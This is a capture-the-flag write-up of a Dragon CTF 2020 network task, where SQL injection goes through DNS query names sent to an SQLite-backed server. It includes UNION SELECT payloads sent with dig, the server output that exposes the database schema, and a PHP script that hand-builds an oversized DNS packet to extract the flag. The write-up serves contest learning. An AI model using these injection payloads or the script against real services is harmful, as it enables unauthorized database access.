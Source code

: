 # Look up the flag - Dragon CTF 2020 (Network, 302p, 23 solved)

## Introduction
Look up the flag is a network task.

The address of a DNS server is given, with the instructions that the domain must
contain `31337`.

Resolving any domain that does not contain 31337 results in an error from the
DNS server:
```
;; ADDITIONAL SECTION:
Exception.in-exception.catch. 10 IN	TXT	"Name not L33t"
```

## Vulnerability
The remote DNS server looks up records from an SQL database. This can be
confirmed by querying a domain that contains a single quote:
```
$ dig @forward-lookup.hackable.software "31337'"       

[...]
;; QUESTION SECTION:
;31337'.				IN	A

;; ADDITIONAL SECTION:
OperationalError.in-exception.catch. 10	IN TXT	"near \"A\": syntax error"
[...]
```

## Exploitation
After digging a bit (pun intended), it becomes clear that the remote server uses
sqlite. The schema can be retrieved by querying the `sqlite_master` table.
```
$ dig @forward-lookup.hackable.software "31337-'UNION/**/SELECT/**/'TXT',sql/**/FROM/**/sqlite_master/*"

; <<>> DiG 9.16.8-Debian <<>> @forward-lookup.hackable.software 31337-'UNION/**/SELECT/**/'TXT',sql/**/FROM/**/sqlite_master/*
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51190
;; flags: qr aa rd ra ad; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;31337-'UNION/**/SELECT/**/'TXT',sql/**/FROM/**/sqlite_master/*.	IN A

;; ANSWER SECTION:
your.query.lol.		10	IN	TXT	"CREATE TABLE dns (domain TEXT, type TEXT, value TEXT)"
your.query.lol.		10	IN	TXT	"CREATE TABLE thisIsVeryLongTableNameThatIsLongerThen64charactersAndRequireMagic (flag TEXT)"
```

The flag is located in a table that has a name longer than the 64 characters
allowed by the standard. `dig` does not allow querying such domains.

Fortunately, the server does not follow strictly the standard and accepts
domains with size up to 255 characters.

**Flag**: `DrgnS{DiggingForTheTreasureAndFlag}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php
const HOST = "35.246.141.229";
const PORT = 53;
const DATA = "31337-'UNION/**/SELECT/**/'TXT',flag/**/FROM/**/"
	. "thisIsVeryLongTableNameThatIsLongerThen64charactersAndRequireMagic"
	. "/*";

$packet  = "";
$packet .= pack("n", 0x0000); // tranasaction id
$packet .= pack("n", 0x8000); // flags

$packet .= pack("n", 1); // questions
$packet .= pack("n", 0); // answer rr
$packet .= pack("n", 0); // authority rr
$packet .= pack("n", 0); // additional rr

/* Question */
$packet .= chr(strlen(DATA)) . DATA;
$packet .= "\x00";

$packet .= pack("n", 0xFF); // TYPE  = ANY
$packet .= pack("n", 0xFF); // CLASS = ANY

$socket = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
socket_connect($socket, HOST, PORT);
socket_write($socket, $packet);
echo socket_read($socket, 4096);
```
